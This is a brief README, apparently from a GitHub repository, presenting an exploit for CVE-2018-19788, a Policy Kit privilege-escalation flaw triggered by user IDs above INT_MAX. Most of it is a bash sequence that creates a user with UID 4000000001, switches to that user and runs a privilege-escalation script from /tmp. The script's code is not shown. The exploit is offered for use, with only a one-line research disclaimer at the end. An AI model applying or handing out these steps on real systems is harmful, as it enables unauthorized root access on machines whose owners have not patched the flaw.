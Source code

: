 # CVE-2018-19788
Silly easy exploit for CVE-2018-19788

To use this, you must either create a user with UID > INT_MAX in Policy Kit or already have a low-priv user with said UID.

UID can be specified in user creation as follows, and used before execution of the script:

```bash
$ useradd -u 4000000001 PrivEsc
$ passwd PrivEsc
$ su PrivEsc
$ chmod +x /tmp/CVE-2018-19788_PrivEsc.sh
$ ./tmp/CVE-2018-19788_PrivEsc.sh
```

Please note this is merely for research and you are responsible for your own usage of any code found in this repository or any other, as common sense dictates.
